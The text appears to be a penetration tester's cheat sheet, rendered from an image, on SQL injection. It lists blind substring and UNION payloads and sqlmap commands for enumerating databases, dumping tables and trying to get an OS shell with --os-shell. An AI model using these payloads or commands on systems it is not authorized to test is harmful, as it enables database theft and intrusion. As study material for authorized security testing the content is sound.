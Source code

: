 			User Input:
				-GET Parameters
				-POST Parameters
				-HTTP Headers:
					User-Agent
					Cookie
					Accept
					...
				**EVERY INPUT SHOULD BE TESTED!** -- **ONE TEST AT A TIME!**
				TESTING:
					String terminators- ' and "
					SQL Commands- UNION, SELECT, etc.
					SQL Comments- # or --

			SQL functions:
				user() - returns current db-username
				substring() - returns a substring of a given arguments (requires the input string, position, length)

			Iterate over letters:
				' or substr(user(), 1, 1)= 'a
				' or substr(user(), 1, 1)= 'b
				' or substr(user(), 1, 1)= 'c
				...
				will return 0 or 1 (True/False).
				Then move to second character:
					' or substr(user(), 2, 1)= 'a
					' or substr(user(), 2, 1)= 'b
					...
			UNION Based:
				SELECT Description FROM items WHERE id='' UNION SELECT user(); -- -';
				Iterate for field number:: ' UNION SELECT 'field1', 'field2', ...; -- -

			SQLMap:
				sqlmap -u <URL> -p <Injection Parameter> [options]
				--technique - UNION/BLIND/?
				--data=<POST STRING>(BURP)
				-v3 --fresh-queries - shows which payload was used by SQLMap
				--os-shell - try to get shell
				--users - which users are connected to the dbs
				--dbs - which databases exist
				Enumerate database:
					-D <database> --tables
					-D <database> -T <table> --columns
					-D <database> -T <table> -C <column/s> --dump
				/w Burp:
					sqlmap -r request.req -p user --banner/--dbs
					-OR-
					--data="user='a&password=a" -p user...

System Attacks:
	Wordlists - apt-get install seclists
